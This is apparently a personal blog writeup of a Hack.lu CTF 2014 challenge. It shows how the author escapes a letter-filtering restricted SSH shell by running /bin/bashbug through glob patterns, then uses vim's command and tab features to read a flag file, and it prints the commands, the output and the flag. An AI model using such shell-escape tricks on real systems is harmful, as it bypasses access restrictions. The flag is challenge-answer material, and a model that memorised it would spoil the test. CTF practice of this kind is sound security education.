```yaml
---
layout: post
title: 'Hack.lu CTF 2014: Gunslinger Joe’s private Terminal Writeup'
category: memo
slug: gunslinger-joes-private-terminal-writeup
---
```

First time of my life I solved a problem in a real CTF! Though it is a pretty easy one, it means something to me.

## Problem Description

In the Hack.lu CTF website, there are some description about "Gunslinger Joe's
private Terminal":

```
Gunslinger Joe's private Terminal
by cutz (Misc)
50 (+20) Points
Gunslinger Joe has a pretty bad memory and always forgets the password for his
private terminals! That's why he always uses his username as password but also
makes sure that absolutely no one else who knows his name can interact with his
secure terminal. Wouldn't it be super embarrassing for him to prove him wrong?

SSH: gunslinger_joe@wildwildweb.fluxfingers.net
PORT: 1403
```

According to the description above, Gunslinger Joe's SSH account and password
are both "gunslinger_joe". So let's connect to the SSH server:

```bash
$ ssh wildwildweb.fluxfingers.net -l gunslinger_joe -p 1403
gunslinger_joe@wildwildweb.fluxfingers.net's password:

           ,'-',
          :-----:
      (''' , - , ''')
      \   ' .  , `  /
       \  '   ^  ? /
        \ `   -  ,'
         `j_ _,'       Gunslinger Joe's
    ,- -`\ \  /f        Private Terminal
  ,-      \_\/_/'-
 ,                 `,
 ,          Joe      ,
      /\          \
|    /             \   ',
,   f  :           :`,  ,
<...\  ,           : ,- '
\,,,,\ ;           : j  '
 \    \            :/^^^^'
  \    \            ; ''':
    \   -,         -`.../
     '    - -,`,--`
      \_._'-- '---:

$ ls
$ whoami
$ ls -l
: -: command not found
```

Something weird have just happened... It seems that the shell filtered out all
the alphabetic characters. However, the "FLAG" showed up...

```bash
$ *
: ./FLAG: Permission denied
```

Apparently, the file FLAG does not have a attribute of execution so the shell
told us it cannot execute the file FLAG. Anyway, using asterisk could reveal
some useful information. Then try it under the root directory.

```bash
$ /*
: /bin: Is a directory
```

To conclude, with this kind of input (asterisk), the shell will want to execute
the very first file in the directory specified. So let's see what is the first
executable in the `/bin`.

```bash
$ /*/*
```

Oops! WTF! It seems that the file `/bin/bashbug` has been executed. And we
finally got an editor, which is `vim`.

```
From: gunslinger_joe
To: ../../bin/bunzip2
Subject: [50 character or so descriptive subject here (for reference)]

Configuration Information [Automatically generated, do not change]:
Machine: x86_64
OS: linux-gnu
Compiler: gcc
Compilation CFLAGS:  -DPROGRAM='bash' -DCONF_HOSTTYPE='x86_64' -DCONF
OSTYPE='linux-gnu' -DCONF_MACHTYPE='x86_64-unknown-linux-gnu'
-DCONF_VENDOR='unknown' -DLOCALEDIR='//share/locale' -DPACKAGE='bash'
-DSHELL -DHAVE_CONFIG_H   -I.  -I. -I./include -I./lib   -g -O2
uname output: Linux terminal 3.13.0-37-generic #64-Ubuntu SMP Mon Sep 22
21:28:38 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
Machine Type: x86_64-unknown-linux-gnu

Bash Version: 4.3
Patch Level: 30
Release Status: release

Description:
        [Detailed description of the problem, suggestion, or complaint.]

Repeat-By:
        [Describe the sequence of events that causes the problem
        to occur.]

Fix:
        [Description of how to fix the problem.  If you don't know a
        fix for the problem, don't include this section.]
```

Gods be good, we all know that anyone can execute any commands in `vim` using
`:! <command>`. So I tried `:! cat FLAG`. But the system told me there was
no more resources to fork another process to do the work. Where there is a
will, there is a way. Using the tab page feature provided by `vim` could do
the work! Because `vim` will not spawn a new process to handle the new tab
page.

## Flag

```
flag{joe_thought_youd_suck_at_bash}
```
